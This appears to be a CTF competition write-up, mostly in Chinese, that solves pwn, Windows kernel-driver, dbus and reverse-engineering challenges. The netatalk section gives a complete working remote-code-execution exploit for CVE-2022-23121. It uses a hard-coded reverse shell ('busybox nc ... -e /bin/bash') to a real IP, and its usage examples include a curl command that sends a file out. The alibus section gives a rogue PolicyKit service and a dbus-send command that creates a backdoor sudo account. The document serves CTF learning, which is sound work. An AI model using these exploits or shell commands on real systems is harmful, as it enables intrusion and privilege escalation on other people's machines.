  p.sendline(b"END_OF_SNIPPET")

if not LOCAL:
  p = remote("localhost", 9999)
  send_token(p)
  solve_pow(p)
  send_src(p, "./exploit/exp.klang")
else:
  local_compile("./exploit/exp.klang")
  p = process("./build/out")
  log.info("PID = " + str(p.pid))

GOT_ADDR = 0x404018
p.recvuntil(b"hello\n")

#payload = p64(GOT_ADDR) + p64(0x1000)
payload = p64(GOT_ADDR) + b"B" * 8 + b"C" * 8
p.sendline(b"2")
p.sendline(payload)
p.sendline(payload)
p.sendline(b"1")
p.sendline(b"a")
p.sendline(b"a")

p.recvline()
puts = int(p.recvline().strip().decode())
log.info("puts_got = " + hex(puts))

libc = puts - 0x000000000084420
system = libc + 0x0000000000052290 
p.sendline(str(system))

p.interactive()
```

### 非预期解法

1.  在IR优化中的DCE部分，对于Call, CallVoid, ArrayStore IR的处理存在问题：由于该指令并非BB中的Terminator，如果该IR的后面其使用的寄存器被再次赋值，会导致其之前的Assign IR被错误的消除掉。利用该bug可以消除掉函数开头的初始化操作。
2.  在IR生成部分存在bug：对于do-while中出现return语句的情况没有进行正确的处理，导致ret指令可以出现在BB中间。利用该bug可以跳至程序中任意地址。

## netatalk

### 1 . Exploit basic usage

The exploit is using mainly `CVE-2022-23121`, and is inspired from the NCCGroup Write-up:

[https://research.nccgroup.com/2022/03/24/remote-code-execution-on-western-digital-pr4100-nas-cve-2022-23121/](https://research.nccgroup.com/2022/03/24/remote-code-execution-on-western-digital-pr4100-nas-cve-2022-23121/)

It use the same vulnerability, but in a different way to get code execution.

exploit usage is:

```plain
Usage:  exploit.py <IP> <port> <volume name> <cmd to execute>
```

for example if you set up a listener on a remote machine at IP 1.2.3.4 on port 12345, with command:

```plain
nc -vv -l -p 12345
```

you can receive a remote shell on this machine with this command:

```plain
python exploit.py 127.0.0.1 5548 Shared 'busybox nc 1.2.3.4 12345 -e /bin/bash;'
```

or you can also simply upload the `/flag.txt`file content to a remote listener:

```plain
python exploit.py 127.0.0.1 5548 Shared 'curl -X post -T /flag.txt 1.2.3.4:12345;'
```

### 2 . Exploit explanation

Exploit use mainly lack of verification of values passed in appledouble metadata file.

Files created on the netatalk server, can have appledouble metadata stored in a file named similarly but starting with ".\_"

These medata are processed by netatalk server when reading the original file.

The vulnerability lies mainly in: `netatalk-3.1.12/libatalk/adouble/ad_open.c`at line 582

```plain
static int ad_convert_osx(const char *path, struct adouble *ad)
{
    EC_INIT;
    static bool in_conversion = false;
    char *map;
    int finderlen = ad_getentrylen(ad, ADEID_FINDERI);
    ssize_t origlen;

    if (in_conversion || finderlen == ADEDLEN_FINDERI)
        return 0;
    in_conversion = true;

    LOG(log_debug, logtype_ad, "Converting OS X AppleDouble %s, FinderInfo length: %d",
        fullpathname(path), finderlen);

    origlen = ad_getentryoff(ad, ADEID_RFORK) + ad_getentrylen(ad, ADEID_RFORK);

    map = mmap(NULL, origlen, PROT_READ | PROT_WRITE, MAP_SHARED, ad_reso_fileno(ad), 0);
    if (map == MAP_FAILED) {
        LOG(log_error, logtype_ad, "mmap AppleDouble: %s\n", strerror(errno));
        EC_FAIL;
    }

    memmove(map + ad_getentryoff(ad, ADEID_FINDERI) + ADEDLEN_FINDERI,   <--- 1st VULN
            map + ad_getentryoff(ad, ADEID_RFORK),
            ad_getentrylen(ad, ADEID_RFORK));
    ad_setentrylen(ad, ADEID_FINDERI, ADEDLEN_FINDERI);
    ad->ad_rlen = ad_getentrylen(ad, ADEID_RFORK);
    ad_setentryoff(ad, ADEID_RFORK, ad_getentryoff(ad, ADEID_FINDERI) + ADEDLEN_FINDERI);

    EC_ZERO_LOG( ftruncate(ad_reso_fileno(ad),
                           ad_getentryoff(ad, ADEID_RFORK)
                           + ad_getentrylen(ad, ADEID_RFORK)) );

    (void)ad_rebuild_adouble_header_osx(ad, map);  <--- 2nd vuln
    munmap(map, origlen);
...
```

In this part , data from appledouble file are read and converted. The appledouble file is mmapped in memory,

and some of it's entries are directly used for the `memmove`data copy, without verifying their value.

We can control `ADEID_RFORK` and `ADEID_FINDERI` values in the appledouble header.

And like this we are able to write relatively from the `map`mapped buffer, with data from appledouble file.

We can use negative or posivite value for `ADEID_FINDERI` to write at 32bits offset from `map` address.

the second vuln we will use is in the `ad_rebuild_adouble_header_osx(ad,map)` function that is called just before unmaping the appledouble file.

let's have a look at this function, it's in file: `netatalk-3.1.12/libatalk/adouble/ad_flush.c`at line 149

```plain
int ad_rebuild_adouble_header_osx(struct adouble *ad, char *adbuf)
{
    uint32_t       temp;
    uint16_t       nent;
    char           *buf;

    LOG(log_debug, logtype_ad, "ad_rebuild_adouble_header_osx");

    buf = &adbuf[0];

    temp = htonl( ad->ad_magic );
    memcpy(buf, &temp, sizeof( temp ));
    buf += sizeof( temp );

    temp = htonl( ad->ad_version );
    memcpy(buf, &temp, sizeof( temp ));
    buf += sizeof( temp );

    memcpy(buf, AD_FILLER_NETATALK, strlen(AD_FILLER_NETATALK));
    buf += sizeof( ad->ad_filler );

    nent = htons(ADEID_NUM_OSX);
    memcpy(buf, &nent, sizeof( nent ));
    buf += sizeof( nent );

    /* FinderInfo */
    temp = htonl(EID_DISK(ADEID_FINDERI));
    memcpy(buf, &temp, sizeof( temp ));
    buf += sizeof( temp );

    temp = htonl(ADEDOFF_FINDERI_OSX);
    memcpy(buf, &temp, sizeof( temp ));
    buf += sizeof( temp );

    temp = htonl(ADEDLEN_FINDERI);
    memcpy(buf, &temp, sizeof( temp ));
    buf += sizeof( temp );

    memcpy(adbuf + ADEDOFF_FINDERI_OSX, ad_entry(ad, ADEID_FINDERI), ADEDLEN_FINDERI); <-VULN

    /* rfork */
    temp = htonl( EID_DISK(ADEID_RFORK) );
    memcpy(buf, &temp, sizeof( temp ));
    buf += sizeof( temp );

    temp = htonl(ADEDOFF_RFORK_OSX);
    memcpy(buf, &temp, sizeof( temp ));
    buf += sizeof( temp );

    temp = htonl( ad->ad_rlen);
    memcpy(buf, &temp, sizeof( temp ));
    buf += sizeof( temp );

    return AD_DATASZ_OSX;
}
```

here the interesting memcpy is this one:

```plain
memcpy(adbuf + ADEDOFF_FINDERI_OSX, ad_entry(ad, ADEID_FINDERI), ADEDLEN_FINDERI);
```

here we control `ADEID_FINDERI`.

`adbuf`is a structure on stack containing part of our appledouble data,, we can use this function to leak data on stack and have them returned to us.

to be able to reach this memcpy, we will need first to bypass the first `memmove`vulnerability `ad_convert_osx()`by setting `ADEID_RFORK`entry to zero, like this the memmove will just return immediatly, and will ignore the value of `ADEID_FINDERI`that we will use for the vulnerable memcpy to leak data on stack, and get the program, stack and libraries various mapping addresses.

### 3 . Exploitation flow

`step 1`: 1st leak, we leak data on stack relatively to `adbuf`on stack to leak `libatalk`memory mapping base, and we will calcultate the `map`mmap address from it, which is at a constant address from `libatalk`in memory

`step 2`: 2nd leak, we leak data on stack relatively to `adbuf`on stack to leak `adbuf`address and stack mapping address.

`step 3`: 3rd leak, we leak data on stack relatively to adbufon stack to leak `afpd`binary mapping address, and `canary`actual value.

`step 4`: now we will use `memmove`vulnerability to overwrite `ad_rebuild_adouble_header_osx` got entry, with a `bx lr`gadget, which is equivalent to `ret`on arm architecture. Like this `ad_rebuild_adouble_header_osx` will not be called next time, and will not crash if we use `ADEID_FINDERI` values for the memmove that would point on unmmaped memory in `ad_rebuild_adouble_header_osx` vulnerable memcpy.

`step 5`: now that `ad_rebuild_adouble_header_osx` is neutralized, we will copy our ROP on stack starting at `memmove`function return address. This ROP will called `afprun_bg`function, an internal function to execute a command as root.

here is the final exploit:

```plain
#! /usr/bin/env python3
# -*- coding: utf-8 -*-
#
from pwn import *
context(arch = 'i386', os = 'linux', endian='little')
context.log_level = 'info'

import socket
import struct
import sys
import time
from afputils import *

request_id = 0

# the command that will be executed by the exploit
# in this case a reverse shell, set IP & port correctly to a receiving listener
# or you can use other commands as well, example: simple flag exfiltrace via curl or nc
command_to_execute = b'/bin/busybox nc 5.255.108.192 12490 -e /bin/bash;\x00'

def createAppleDouble(offset):
  header = p32(0x51607)                     #Magic number double
  header += p32(0x20000)                    #Version number
  header += p8(0) * 16                      #Filler
  header += p16(2)                          #Number of entries
  header += p32(9)                          #Entry Id Finder Info
  header += pack(offset,32,'big',True)      # oob offset (pour leak stack & oob write)
  header += p32(30)                         # Set length other than 32 to call 'ad_convert_osx'
  header += p32(2)                          # Type Ressource fork
  header += p32(0x100)                      # #Control the mmap size (ad_convert_osx) with entry offset + entry length
  header += p32(0)                          # length
  ############
  # usefull to find adouble offset
  ###########
  header += b'JUNK' * 8
  header = header.ljust(0x1000, b'\x00')
  return header

def craft_write_AppleDouble(offset, data):
  header = p32(0x51607)                     #Magic number double
  header += p32(0x20000)                    #Version number
  header += p8(0) * 16                      #Filler
  header += p16(2)                          #Number of entries
  header += p32(9)                          #Entry Id Finder Info
  header += pack(offset,32,'big',True)      # oob offset (pour leak stack & oob write)
  header += p32(0)                         # Set length other than 32 to call 'ad_convert_osx'
  header += p32(2)                          # Type Ressource fork
  header += p32(50)                      # #Control the mmap size (ad_convert_osx) with entry offset + entry length
  header += p32(len(data))               # length
  header += data
  header = header.ljust(0x1000, b'\x00')
  return header

if len(sys.argv) < 4:
    print('Usage:  '+sys.argv[0]+' <IP> <port> <volume name> [debug]\n')
    sys.exit(0)

ip = sys.argv[1]
port = int(sys.argv[2])
volume = sys.argv[3]

debug = False
if len(sys.argv) == 4 and sys.argv[3] == "debug":
    debug = True

p = connect(ip, port)
response, request_id = DSIOpenSession(p, debug)
response, request_id = FPLogin(p, request_id, b'AFP3.3', b'No User Authent', None, debug)
response, request_id, volume_id = FPOpenVol(p, request_id, 0x21, bytes(volume,encoding='utf-8'), None, debug)


# step 1:   leak libatalk base & mmap zone base
#------------------------------------------------------------------------------------------------
tempfile_name = getARandomName(15)
cpt_file_name = 1
tempfile_name_normal = str.encode('{}_{}'.format(tempfile_name, cpt_file_name))
tempfile_name_adouble = str.encode('._{}_{}'.format(tempfile_name, cpt_file_name))

#prepare appledouble with oob
# leak address inside ad structure on stack
appledouble = createAppleDouble(-0x10)

# create a simple file with bullshit inside
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id, fork1 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2,tempfile_name_normal, debug)

data = b'Hello'
response, request_id = FPWriteExt(p, request_id, fork1, 0, len(data), data, debug)
response, request_id = FPCloseFork(p, request_id, fork1, debug)

# create an appledouble file on target
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)
response, request_id, fork2 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2, tempfile_name_adouble, debug)
response, request_id = FPWriteExt(p, request_id, fork2, 0, len(appledouble), appledouble, debug)    

# time to trig the leak
response, request_id, fork3 = FPOpenFork(p, request_id, 1, volume_id, 2, 0, 3, 2, tempfile_name_normal, debug)

# get the leak inside appledouble
response, request_id = FPReadExt(p, request_id, fork2, 0, 128, debug)

print('response:\n----------------\n'+hexdump(response))
leak1 = u32(response[0x4c:0x50], endian='little')
libatalk = leak1 - 0x70928
mmap_zone = libatalk+0xa2000
print('\nlibatalk base = '+hex(libatalk)+'   (leak = '+hex(leak1)+')')
print('mmap zone base = '+hex(mmap_zone))

response, request_id = FPCloseFork(p, request_id, fork2, debug)
response, request_id = FPCloseFork(p, request_id, fork3, debug)
# delete temporary files
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)


# step 2:   leak ad buff address on stack
#------------------------------------------------------------------------------------------------
cpt_file_name += 1
tempfile_name_normal = str.encode('{}_{}'.format(tempfile_name, cpt_file_name))
tempfile_name_adouble = str.encode('._{}_{}'.format(tempfile_name, cpt_file_name))

#prepare appledouble with oob
# leak address inside ad structure on stack
appledouble = createAppleDouble(-0x40)

# create a simple file with bullshit inside
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id, fork1 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2,tempfile_name_normal, debug)

data = b'Hello'
response, request_id = FPWriteExt(p, request_id, fork1, 0, len(data), data, debug)
response, request_id = FPCloseFork(p, request_id, fork1, debug)

# create an appledouble file on target
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)
response, request_id, fork2 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2, tempfile_name_adouble, debug)
response, request_id = FPWriteExt(p, request_id, fork2, 0, len(appledouble), appledouble, debug)    

# time to trig the leak
response, request_id, fork3 = FPOpenFork(p, request_id, 1, volume_id, 2, 0, 3, 2, tempfile_name_normal, debug)

# get the leak inside appledouble
response, request_id = FPReadExt(p, request_id, fork2, 0, 128, debug)

print('response:\n----------------\n'+hexdump(response))
leak2 = u32(response[0x4c:0x50], endian='little')
ad_addr = leak2 - 0x158
print('\nad buff on stack address = '+hex(ad_addr)+'   (leak2 = '+hex(leak2)+')')

response, request_id = FPCloseFork(p, request_id, fork2, debug)
response, request_id = FPCloseFork(p, request_id, fork3, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)

# step 3:   leak afpd_base and canary
#------------------------------------------------------------------------------------------------
cpt_file_name += 1
tempfile_name_normal = str.encode('{}_{}'.format(tempfile_name, cpt_file_name))
tempfile_name_adouble = str.encode('._{}_{}'.format(tempfile_name, cpt_file_name))

#prepare appledouble with oob
# leak address inside ad structure on stack
appledouble = createAppleDouble(-0x286)

# create a simple file with bullshit inside
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id, fork1 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2,tempfile_name_normal, debug)

data = b'Hello'
response, request_id = FPWriteExt(p, request_id, fork1, 0, len(data), data, debug)
response, request_id = FPCloseFork(p, request_id, fork1, debug)

# create an appledouble file on target
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)
response, request_id, fork2 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2, tempfile_name_adouble, debug)
response, request_id = FPWriteExt(p, request_id, fork2, 0, len(appledouble), appledouble, debug)    

# time to trig the leak
response, request_id, fork3 = FPOpenFork(p, request_id, 1, volume_id, 2, 0, 3, 2, tempfile_name_normal, debug)

# get the leak inside appledouble
response, request_id = FPReadExt(p, request_id, fork2, 0, 128, debug)

print('response:\n----------------\n'+hexdump(response))
canary = u32(response[0x42:0x46], endian='little')
leak3 = u32(response[0x5e:0x62], endian='little')
afpd_base = leak3 - 0x49a80
print('\nafpd base= '+hex(afpd_base)+'   (leak3 = '+hex(leak3)+')')
print('canary (cuicui) = '+hex(canary))

response, request_id = FPCloseFork(p, request_id, fork2, debug)
response, request_id = FPCloseFork(p, request_id, fork3, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)

# step 4:  overwrite ad_rebuild_adouble_header_osx got entry with gadget: bx lr
# -------------------------------------------------------- first write
cpt_file_name += 1
tempfile_name_normal = str.encode('{}_{}'.format(tempfile_name, cpt_file_name))
tempfile_name_adouble = str.encode('._{}_{}'.format(tempfile_name, cpt_file_name))

gadget_bx = afpd_base+0x0000695d
got1 = libatalk+0x70774 # libatalk's ad_rebuild_adouble_header_osx got entry
ad = craft_write_AppleDouble((got1 - (mmap_zone+32)), p32(gadget_bx,endian='little'))       # replace ad_rebuild_adouble_header_osx@got entry by: bx lr gadget

# create a simple file with bullshit inside
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id, fork1 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2,tempfile_name_normal, debug)
data = b'Hello'
response, request_id = FPWriteExt(p, request_id, fork1, 0, len(data), data, debug)
response, request_id = FPCloseFork(p, request_id, fork1, debug)
# create an appledouble file on target
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)
response, request_id, fork2 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2, tempfile_name_adouble, debug)
response, request_id = FPWriteExt(p, request_id, fork2, 0, len(ad), ad, debug)    
# time to trig the vuln
response, request_id, fork3 = FPOpenFork(p, request_id, 1, volume_id, 2, 0, 3, 2, tempfile_name_normal, debug)
response, request_id = FPCloseFork(p, request_id, fork2, debug)
response, request_id = FPCloseFork(p, request_id, fork3, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)

# step 5:  write payload at return address on stack 
# will call afprun_bg("command") to run command as root
# -------------------------------------------------------- second write (afprun_bg)
cpt_file_name += 1
tempfile_name_normal = str.encode('{}_{}'.format(tempfile_name, cpt_file_name))
tempfile_name_adouble = str.encode('._{}_{}'.format(tempfile_name, cpt_file_name))
gadget1 = afpd_base+0xa05c+1    # afprun_bg
gadget2 = afpd_base+0x00000921 # pop {r0, r1, r2, r4, r5, r6, r7, pc};

payload  = p32(gadget2,endian='little')
payload += p32(1,endian='little')+p32( ((ad_addr-0x78)+0x40),endian='little')+p32(0)*5
payload += p32(gadget1,endian='little')+b'\x00'*0x40

ad = craft_write_AppleDouble(((ad_addr-0x9c) - (mmap_zone+32)), payload+command_to_execute)     # execute command

# create a simple file with bullshit inside
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id, fork1 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2,tempfile_name_normal, debug)
data = b'Hello'
response, request_id = FPWriteExt(p, request_id, fork1, 0, len(data), data, debug)
response, request_id = FPCloseFork(p, request_id, fork1, debug)
# create an appledouble file on target
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)
response, request_id, fork2 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2, tempfile_name_adouble, debug)
response, request_id = FPWriteExt(p, request_id, fork2, 0, len(ad), ad, debug)    
# time to trig the vuln
response, request_id, fork3 = FPOpenFork(p, request_id, 1, volume_id, 2, 0, 3, 2, tempfile_name_normal, debug)
response, request_id = FPCloseFork(p, request_id, fork2, debug)
response, request_id = FPCloseFork(p, request_id, fork3, debug)

response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)

DSICloseSession(p, request_id, debug)
p.close()
```

the `afputils.py`library is required for it.

## SYSTEM

SYSTEM是一个Windows第三方驱动的提权题目，有漏洞的驱动通过DeviceIoControl向用户态分别提供了64位和32位下的申请内存并映射到用户态以及释放映射和释放内存的功能。  
题目漏洞比较明显，在两个释放的处理逻辑中都没有将指针置空，连续释放两次既发生double free。如果是一个同样逻辑的Linux Kernel题目，在当今内卷的CTF背景下恐怕只能是baby或者easy级别的题目了，这里虽然平台换成了Windows，但基本思想一致，同样是将double free转化为特定对象的UAF，构造更强的原语完成利用。

这里发生double free的对象是[MDL](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/ns-wdm-_mdl)，属于Non Paged Pool，作者选用的堆喷对象是[NpFr(named pipe)](https://github.com/vportal/HEVD?tab=readme-ov-file#exploitation-strategy)和[IoSb(IopVerifierExAllocatePoolWithQuota)](https://www.anquanke.com/post/id/255916#h3-8)来占位Ws2P(ws2ifsl)，在关闭ws2ifsl的handle时可以造成一个arbitrary decrement，通过修改[\_KTHREAD.PreviousMode](https://www.zscaler.com/blogs/security-research/technical-analysis-windows-clfs-zero-day-vulnerability-cve-2022-37969-part2-exploit-analysis)构造读写原语完成利用。

当然可行的利用方法不唯一，比如赛中唯一解出这道题目的Nu1L使用的是clfs的对象进行的堆喷占位。

这道题目的唯一坑点可能是64位程序在调用IOCTL\_ALLOCATE32时会因为integer truncation发生无效地址访问导致蓝屏：

```plain
#define IOCTL_ALLOCATE32 \
    CTL_CODE( SIOCTL_TYPE, 0x900, METHOD_BUFFERED, FILE_ANY_ACCESS  )

    switch ( irpSp->Parameters.DeviceIoControl.IoControlCode )
    {
    case IOCTL_ALLOCATE32:
......
            ULONG MappedBuffer = (ULONG)MmMapLockedPagesSpecifyCache(Mdl, UserMode, MmNonCached, NULL, FALSE, NormalPagePriority); // 32 bit address
......
            RtlFillMemory((PVOID)MappedBuffer, BufferSize, 0xFF);
```

因为这里设计是给32位程序使用的回调，64位程序的用户态地址在发生integer truncation后往往是非法地址，预期是通过一个32位的程序完成利用，但最终来看只给Nu1L一个队伍增加了一点难度:p

ps1: 在当前Windows 11系统（Build版本号为22621）中，Medium Integrity的用户仍然可以读取内核地址，同时PreviousMode的方法仍然可以使用，如果有选手想要复现这道题目请注意系统版本，题目附件可以从[SYSTEM\_70812a289a4097da53b89a5f8905018964b87aac5c2ff3921deb9797535bbf75622a2a67e7f0adfaf83155b3849158a03810bc239eb95e9694fbf8a3497d1cad.zip](https://1drv.ms/u/s!An3IrMK1dZVygfwbN_5_N4tWqwF2pw?e=jM6Np3)下载，作者的exploit可以从[poc.zip](https://1drv.ms/u/s!An3IrMK1dZVygfxk91yMqnVsUxrVfQ?e=YFRevK)下载

## alibus

题目是一个简单的 dbus 服务配置导致不当导致可以提权的场景

可以看到这个dbus配置，允许在没有授权的情况下接受连接，并允许客户端 "own" any service

利用思路如下:

1.编写一个自己的一个 dbus 服务, 实现 CheckAuthorization 函数

```plain
from gi.repository import GLib

import dbus
import dbus.service
import dbus.mainloop.glib

class SomeObject(dbus.service.Object):

    @dbus.service.method("org.freedesktop.PolicyKit1.Authority",
                         in_signature='(sa{sv})sa{ss}us', out_signature='(bba{ss})')
    def CheckAuthorization(self, subject,action_id,details,flags,cancellation_id):
        print(subject)
        print(action_id)
        print(details)
        print(flags)
        print(cancellation_id)
        return (True,False,{})

    def Exit(self):
        mainloop.quit()

if __name__ == '__main__':
    dbus.mainloop.glib.DBusGMainLoop(set_as_default=True)
    # bus=dbus.bus.BusConnection("tcp:host=192.168.59.186,port=55557")
    bus= dbus.SystemBus()
    name = dbus.service.BusName("org.freedesktop.PolicyKit1", bus, replace_existing=True)
    print(bus.get_unique_name())
    object = SomeObject(bus, '/org/freedesktop/PolicyKit1/Authority')
    mainloop = GLib.MainLoop()
    print("Running example service.")
    mainloop.run()
```

2.连接服务, 并使用

```plain
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:hack string:"" int32:1
```

命令创建一个后门帐号, 由于我们实现了一个自己的 org.freedesktop.PolicyKit1.Authority 的 CheckAuthorization, 因此我们可以操作任意的 policykit-1 方法, 我们可以用 createUser 创建帐号, 用 Accounts.User.SetPassword 修改密码.

此时的这个 hack 用户可以拥有 sudo 权限

3.切到 hack 用户, 并且使用密码切到 root 账号

# Reverse

## 欧拉！

程序中的问题可以转化为，求一个图中的欧拉路径问题，首先分析邻接表，由邻接表可知无向图中有两个结点的度为奇数，其他结点的度均为偶数，所以该图存在欧拉路，但是不存在欧拉回路，且欧拉路的起点，和终点一定分别为度为奇数的两个结点，即 0 结点，或者 4 结点。

由之前的约束条件可以知道，输入的数据中最后一个为 4 所以，结点 4 是作为终点。那结点 0 即为起点，所以输入的第一个数字为 0 ，在后面编写脚本搜索时我们也使用 0 作为起点去搜索。

使用 DFS 的方法搜索所有欧拉路径，且根据约束条件过滤，不符合要求的欧拉路径

```plain
def findeuler(m, cur, vis, record, cnt):
     if cnt == v + 1:
         if record[1] > record[2] and record[3] < record[4] and record[0] == record[8] and record[11] == record[15] and record[10] > record[5] and record[3] < record[13] and record[7] < record[4] and record[14] == 7 and record[17] == 4:
             print("aliyunctf{", end = "")
             for i in range(0, cnt):
                 print(str(record[i]), end ="")
             print("}")
             return
     for i in range(0, 9):
         if m[cur][i] == 1 and vis[cur][i] == 0:
             vis[i][cur] = vis[cur][i] = 1
             record[cnt] = i
             cnt += 1
             findeuler(m, i, vis, record, cnt)
             cnt -= 1
             vis[i][cur] = vis[cur][i] = 0
     return


 if __name__ == "__main__":
     graph = np.array([[0, 0, 1, 0, 0, 1, 0, 0, 1],
                     [0, 0, 0, 1, 1, 1, 0, 0, 1],
                     [1, 0, 0, 1, 0, 0, 1, 1, 0],
                     [0, 1, 1, 0, 1, 0, 0, 0, 1],
                     [0, 1, 0, 1, 0, 0, 1, 0, 0],
                     [1, 1, 0, 0, 0, 0, 1, 0, 1],
                     [0, 0, 1, 0, 1, 1, 0, 0, 1],
                     [0, 0, 1, 0, 0, 0, 0, 0, 1],
                     [1, 1, 0, 1, 0, 1, 1, 1, 0]])
     for i in range(0, 9):
         for j in range(0, 9):
             if graph[i][j] == 1:
                 v += 1
     v //= 2
     vis = np.random.randint(0,1,81).reshape((9,9)) #vis矩阵用来判断该条边是否被走过,初始状态下全为0
     record = np.random.randint(0, 1, v * 2)
     record[0] = 0 #设置起点为0号结点
     findeuler(graph, 0, vis, record, 1)
```

## \-ENOTYOURWORLD

因题目复杂，出题人初步公开[题目源代码](https://github.com/Riatre/aliyunctf-2024-challenges-public/tree/main/-enotyourworld)。后续具体writeup完成后会通过链接放在评论区。

## mi

因题目复杂，出题人初步公开[题目源代码](https://github.com/Riatre/aliyunctf-2024-challenges-public/tree/main/mi)。后续具体writeup完成后会通过链接放在评论区。

## RDTMA

### Recon

首先使用 IDA Pro / Ghidra 观察一下题目逻辑，可以很快看到主逻辑大致如下：

1.  初始化了一堆 ibverbs 相关的资源。  
    a. 先调用了 `ibv_get_device_list` 并寻找符合某个特定条件的设备，若找不到则报错。  
    b. 创建了两组 QP，并看起来像是把他们接在了一起。
2.  读入了 flag。
3.  将 flag 所在内存区域和一个栈上 buffer 分别注册到两个 QP 的 MR 里。
4.  构造了一长串的某种结构体，传给了 `sub_47F6`，这个函数乍一看也看不懂在干啥，里面并没有调用 `ibv_post_send`，而只是在操作一些内存，最后调用了 write。strace 一下可以大概看出来最后的 write 是发送了一个 doorbell。
5.  执行完以上操作之后直接 `puts(flag_buffer);` （？？）

### Reverse

要想进一步看懂这个程序，我们显然需要把 libibverbs 里面的这一坨结构体的定义都导入 decompiler，并在里面标注好类型。这里介绍一种方法：

1.  git clone 一份 rdma core 的源码，构建带完整调试符号的 `libibverbs.so` 和对应的 `librxe-rdmav34.so`。
2.  在 IDA Pro 里加载，等待分析完毕，保存，将 idb 旁边的 `.til` 直接拷贝处理并做处理，参考[这里](https://reverseengineering.stackexchange.com/questions/26770/exporting-c-types-from-database-to-another)。
3.  即可得到一份 Type Info Library。加载后即可直接使用 `struct rxe_wq` 等结构体定义。

接下来就是体力活，进一步梳理题目逻辑：

1.  `sub_143A` 里找的 device 是 `dev[i]->sysfs->driver_id` 为 14 且 `->abi_version` 为 2 的。查 `rdma/ib_user_ioctl_verbs.h` 可知这个值是 `RDMA_DRIVER_RXE`。据此可以配出运行程序的环境。
2.  `sub_1628` 里程序首先构造了一些长得像 `ibv_send_wr` 但是尾部又多出来点东西的结构，传给了 `sub_47F6`。
3.  `sub_47F6` 将这个根据多出来的东西选择性地修改了前面的 `ibv_send_wr` 里的一些字段，主要是一些 `write.remote_addr` 和 `atomic.compare_add` 之类的。
4.  `sub_47F6` 里直接操作了 `qp->sq.queue` 里的一些字段，查阅 rdma-core 源码可知这个结构体指向的就直接是内核映射到用户态的 WQ 区域 （定义见内核头文件 `rdma/rdma_user_rxe.h`）：

```plain
/* This data structure is stored at the base of work and
 * completion queues shared between user space and kernel space.
 * It contains the producer and consumer indices. Is also
 * contains a copy of the queue size parameters for user space
 * to use but the kernel must use the parameters in the
 * rxe_queue struct. For performance reasons arrange to have
 * producer and consumer indices in separate cache lines
 * the kernel should always mask the indices to avoid accessing
 * memory outside of the data area
 */
struct rxe_queue_buf {
    __u32           log2_elem_size;
    __u32           index_mask;
    __u32           pad_1[30];
    __u32           producer_index;
    __u32           pad_2[31];
    __u32           consumer_index;
    __u32           pad_3[31];
    __u8            data[];
};
```

到这里，我们考虑忽略程序本身生成 WQE 的逻辑，直接打断点运行到填充完 WQE 之后，修改 `producer_index` 之前或者 doorbell 之前，把 WQE dump 出来，对照着 `struct rxe_send_wqe` 的结构分析即可。

分析后可以看出来来其逻辑是利用 `IBV_WR_ATOMIC_FETCH_AND_ADD` 这个 verb 自修改 `IBV_WR_ATOMIC_CMP_AND_SWP` 里的 compare value。而这些 CAS 本身是在比较 flag，如果比较成功则把 flag 对应位置改成 0。然后把 `"Correct\x00"` 写入 flag buffer 开头。最后把比较的结果每 4 个字节（防溢出）同样通过自修改进 verb 的 operand 的方式加起来，比较是否是 0，来决定是否将 `"Wrong:(\x00"` 覆盖到 flag buffer 开头。

这些 add 的值都是常数，因此我们手动把每个位置对应的值全都加起来，就可以得到 flag 了。

### 投机取巧解

这个题目实际上还有一种投机取巧的解法，看到上面的操作的同学可能已经注意到了：由于 flag 是明文比较的，也没有对 WQE 在运行完成之后进行擦除，在所有 WR 处理完成后，进程内存中的应该是存在明文 flag 的，因此我们在 puts 之后打个断点，dump 整个程序的内存，strings，在里面找 "aliyunct" 顺着往下看，就可以看到能拼成 flag 的每个部分了。

### Source

本题的代码放在了[这里](https://github.com/Riatre/aliyunctf-2024-challenges-public/tree/main/rdtma)，感兴趣的同学可以自行对照。

### Omake

